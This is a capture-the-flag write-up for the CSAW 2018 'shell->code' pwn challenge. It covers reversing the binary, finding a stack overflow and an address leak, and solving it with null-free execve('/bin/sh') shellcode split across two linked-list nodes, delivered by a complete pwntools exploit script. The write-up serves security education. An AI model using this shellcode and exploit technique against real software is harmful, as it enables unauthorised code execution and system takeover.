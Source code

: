 ```yaml
---
title: shell->code -- CSAW2018 Quals
categories: [CTF Writeups]
tags: [csaw18, pwn]
date: 2018-09-20
---
```

**Points:** 100

**Solves:** 261

**Description:**

> Linked lists are great! They let you chain pieces of data together.
>
> `nc pwn.chal.csaw.io 9005`
>
> flag format: `flag{...}`

**Given:**

[shellpointcode](shellpointcode)

# Introduction

shell->code was a 100 points pwn challenge on the CSAW’18 CTF Qualification Round

# Reversing (The Problem)

The clue was: "Linked lists are great! They let you chain pieces of data together"

Running checksec on the binary gives the following result:

![upload-image]({{ "/assets/img/CSAW18_shell-\>code/checksec.png" | relative_url }})


This gives us a few clues already:

1. NX is disabled and there are RWX segments, which points to possible shellcode injection.
2. Full RELRO means that we can't overwrite the GOT.
3. No stack canary, which points to a possible buffer overflow vulnerability.

Running the program, it asks twice for 15 bytes of data, to store on two separate linked list nodes, node 1 and node 2. Then it leaks the second node's address through the "next" pointer in the first node.
Finally, it asks for our initials and then prints a goodbye message using our input.

Let's check it out in IDA Free:

![upload-image]({{ "/assets/img/CSAW18_shell-\>code/nononode.png" | relative_url }})

Here we can confirm that we are only allowed to store the 15 bytes the program asks for, so no overflows in this part. However, we can see a call to the goodbye function which, I assume, is where the programs asks for our initials and says goodbye.

![upload-image]({{ "/assets/img/CSAW18_shell-\>code/goodbye_overflow.png" | relative_url }})

And indeed, we see the stack frame growing 16 bytes, and fgets reading 0x20 bytes into [rbp - 3], which means we have 29 bytes of overflow.

Testing it out wields the following result:

![upload-image]({{ "/assets/img/CSAW18_shell-\>code/segfault.png" | relative_url }})

Aha! Just as we expected. So, there's our buffer overflow. With this, we should have enough space to overwrite the saved return address. Let's find out the offset between our input and the saved return address in gdb.

![upload-image]({{ "/assets/img/CSAW18_shell-\>code/offset.png" | relative_url }})

The highlighted value is what we want to overwrite and it's 11 bytes away from where our input is stored.

Now the only thing left to know is where the nodes are, relative to each other, so we can have the big picture of what's going on.
Again using gdb, we can see that node 2 (lower address) is higher than node 1 (higher address) on the stack, 32 bytes appart.

![upload-image]({{ "/assets/img/CSAW18_shell-\>code/node_off.png" | relative_url }})

(node 1 is filled with A's (0x41) and node 2 is filled with B's (0x42))

# The Solution

Recap:
We have a leak from an address where we can store 15 bytes of data and we know the offset from this address to the other address where we can store another 15 bytes.
From checksec, we know the binary doesn't have NX enabled, so we can execute code on the stack.

I solved this challenge by injecting shellcode in both nodes, and jumping between them with a short jump to save space. The script was developed in python using the pwntools library.

We have to keep in mind that fgets stops when it sees a \x00, so our shellcode can't have any of those.

```assembly
   ; complement of "/bin/sh\x00"
   mov rbx, 0xff978cd091969dd0
   not rbx
   jmp short $+20

   xor rsi, rsi
   push 59
   pop rax
   push rbx
   mov rdi, rsp

   syscall
```

First, the complement of "/bin/sh\x00" is moved into the rbx register, and then, before we push rbx we run a not on it. This way, we can push "/bin/sh\x00" without any 0's in our code.
Then I found the exact offset on gdb to where we wanted our code to jump to and hardcoded it. The rest is straightforward x86-64, avoiding instructions with 0's in them.
This code is 27 bytes long and calls sys_execve("/bin/sh\x00", null, null). It's split into 15 bytes in node 2 and 12 bytes in node 1.

```python
#!/usr/bin/env python2.7
from pwn import *
binary_path = "./shellpointcode"

SERVER = "pwn.chal.csaw.io"
PORT = 9005
# Change to False to interact with the server
local = False
if local:
   p = process(binary_path, timeout=9999)
else:
   p = remote(SERVER, PORT, timeout=9999)

"""
    xor rsi, rsi
    push 59
    pop rax
    push rbx
    mov rdi, rsp

    syscall
"""
node_1 = "\x48\x31\xf6\x6a\x3b\x58\x53\x48\x89\xe7\x0f\x05"

"""
    mov rbx, 0xff978cd091969dd0
    not rbx
    jmp short $+20
"""
node_2 = "\x48\xbb\xd0\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xd3\xeb\x12"

padding = 'A'*11

p.sendline(node_1)
p.sendline(node_2)
p.recvuntil("node.next:")

# parse the leaked address
node_2_addr = p.recvline()
"""
we add 8 to the leaked address, because our input is at
offset 8 from the start of node 2 which is the leaked address,
being the first 8 bytes reserved to the pointer to the next node on the list.
"""
rip = p64(int(node_2_addr, 16) + 8)
p.sendline(padding + rip)
p.interactive()
```

Now we run the script and get the flag!

![upload-image]({{ "/assets/img/CSAW18_shell-\>code/win.png" | relative_url }})
